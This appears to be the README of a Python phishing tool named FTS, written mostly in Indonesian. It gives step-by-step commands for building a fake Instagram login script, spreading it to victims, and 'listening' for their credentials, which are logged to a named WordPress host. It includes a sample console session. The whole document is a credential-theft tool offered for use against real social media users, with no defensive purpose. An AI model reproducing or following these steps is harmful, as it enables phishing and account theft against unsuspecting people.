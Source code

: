 <img src="https://raw.githubusercontent.com/LOoLzeC/FTS/master/img/Screenshot_2018-08-20-03-38-42-15.png"/>
############################################
<br>
PROJECT TITTLE : FTS (FUCK THE SOCIAL)
<br>
CODENAME       : Python
<br>
COPYRIGHT      : (C) Copyright 2018 LOoLzeC Scurity
<br>
CODED BY       : DERAY
<br>
FACEBOOK       : Deray
<br>
INSTAGRAM      : @reyy05
<br><br>
TAG            : HACKING,PHISING,SOCIAL ENGINEERING ATTACK,SOCIAL MEDIA AND FUCKING YOU ALL SOSMED!!!
<br>                                     
###########################################
<br><br>
(step satu)
<br><br>
membuat payload<br>
command contoh : SET PAYLOAD AkSIsrR.txt<br>
deskripsi : payload ini penting untuk listening nanti jika target sudah memasukan data login nya di payload yang sudah kita buat,btw tool ini harus terhubung ke internet,not offline ya akmj!1!
<br><br>
(step dua)
<br><br>
memberi output(nama file payload nya<br>
command contoh : SET OUTPUT hack-instagram.py<br>
deskripsi: perlu di ingat,jangan lupa namakan file nya dengan ekstensi py
<br><br>
(step tiga)
<br><br>
memberi nama query(akun apa yang ingin anda hack)<br>
command contoh : SET QUERY INSTAGRAM<br>
deskripsi: jika anda memasukan query instagram,atau tittle akun apa saja yang kalian mau,otomatis query ini akan masuk ke source payload kalian contoh outputnya di target [*] Login INSTAGRAM Lu Dulu Bos...
query INSTAGRAM itu adalah query yang sudah kalian buat dengan command SET QUERY
<br><br>
(step empat)
<br><br>
memberi tanggal dan tahun<br>
contoh command : SET DATE 2018/08<br>
deskripsi : nah ini juga penting buat listening nanti,ane kan redirect log nya hanya di satu host wordpress,jadi nanti listening nya di sini http://ailisgarcia.com/wp-content/uploads/2018/08/ AkSIsrR.txt
apakah sudah mengerti? 2018/08 dan AkSIsrR.txt itu adalah date dan log payload yang sudah kita input dengan command SET PAYLOAD AkSIsrR.txt dan SET DATE 2018/08
<br><br>
(step lima)
<br><br>
generate<br>
command : generate<br>
deskripsi: dan terjadilah disini pembuatan payload kalian buat untuk di eksekusi target nanti,tunggu sampe sukses.
<br><br>
(step terakhir)
<br><br>
sebarkan payload berekstensi hack-instagram.py ke target anda,dan biarkan dia mengeksekusinya dan memasukan log data login nya terlebih dahulu
<br><br>
sekarang tugas anda adalah mendengarkan sampai korban memasukan log data login mereka<br>
command : listen
<br><br>
atau untuk contoh manual listening command:
<br><br>
fts> SET PAYLOAD AkSIsrR.txt<br>
PAYLOAD => AkSIsrR.txt<br>
fts> SET QUERY INSTAGRAM<br>
QUERY => INSTAGRAM<br>
fts> SET DATE 2018/08<br>
DATE => 2018/08<br>
fts> listen<br>
[*] listening..."<br>
[*] LISTENING TARGET......"<br>
<img src="https://raw.githubusercontent.com/LOoLzeC/FTS/master/Screenshot_2018-08-20-04-12-09-30.png"/>
ditunggu saja sampai korban memasukan log nya ^^<br><br><br>

bantuan command : help,?,show options


